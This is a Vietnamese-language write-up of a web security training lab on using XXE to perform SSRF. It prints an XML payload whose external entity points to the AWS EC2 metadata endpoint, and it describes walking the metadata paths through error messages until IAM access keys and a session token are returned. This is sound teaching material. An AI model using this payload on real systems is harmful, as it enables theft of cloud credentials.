









# Lab: Exploiting XXE to perform SSRF attacks

## Mô tả lab

Ứng dụng có chức năng kiểm tra số lượng hàng tồn kho xử lý dữ liệu XML. Trong môi trường có một endpoint backend chạy tại `http://169.254.169.254` cung cấp EC2 metadata của AWS. Mục tiêu là thực hiện tấn công SSRF thông qua XXE để lấy IAM secret access key.

## Các bước thực hiện

### Phân tích



Request tương tự lab trước. Ở lab trước, external entity tham chiếu tới một file trên hệ thống file cục bộ. Lần này, thay vì tham chiếu file, mình tham chiếu tới một hệ thống backend khác.

### Lấy dữ liệu

Trên AWS, metadata của instance được truy xuất qua endpoint nội bộ `http://169.254.169.254/`.



Định nghĩa external entity trỏ tới endpoint này và tham chiếu nó qua `productId`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```



Request trả về thông báo lỗi `"Invalid product ID: latest"`. Thông báo này cho thấy entity đã được xử lý và nội dung trả về từ endpoint metadata được phản hồi lại qua `productId`.

Mình lần lượt thêm từng cấp đường dẫn vào entity để duyệt sâu vào cây metadata, mỗi lần đọc tên thư mục con từ thông báo lỗi để biết bước tiếp theo. Thêm `latest/`, lỗi trả về `meta-data`:











Response trả về toàn bộ IAM credentials, bao gồm `AccessKeyId`, `SecretAccessKey` và `Token`.



Lab solved.
